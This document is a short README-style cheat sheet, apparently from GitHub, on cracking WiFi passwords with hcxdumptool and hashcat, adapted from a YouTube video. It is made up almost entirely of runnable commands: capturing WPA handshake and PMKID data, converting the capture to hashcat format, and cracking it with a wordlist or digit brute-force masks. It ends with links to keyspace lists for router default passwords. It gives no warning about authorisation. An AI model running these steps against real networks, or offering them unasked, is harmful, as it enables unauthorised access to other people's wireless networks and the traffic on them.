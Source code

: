 # WiFi-Cracking-with-HashCat
Cat: Security

Hashcat wifi cracking from David Bombal's video

https://www.youtube.com/watch?v=Usw0IlGbkC4&t=915s

## COMMANDS

### Stop Network Manager and WPA Supplicant Services
```
sudo systemctl stop NetworkManager && sudo systemctl stop wpa_supplicant
```

### Run hcxdumptool to capture WLAN information
```
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=1
```

### Restart Network Manager and WPA Supplicant Services
```
sudo systemctl start wpa_supplicant && sudo systemctl start NetworkManager
```

### Convert PCAPNG file to hash file
```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

### Capture MAC addresses
```
hcxdumptool --do_rcascan -i wlan0
```

### Run Hashcat with a wordlist
```
hashcat -m 22000 hash.hc22000 wordlist.txt
```
### Run Hashcat with Brute Force
```
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```
## Windows:
```
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
```
```
hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d
```


Usefull repositories for routers with default passwords.

https://github.com/sheimo/Wifi-WPA-Keyspace-List

https://github.com/n0kovo/ssid-keyspace-table
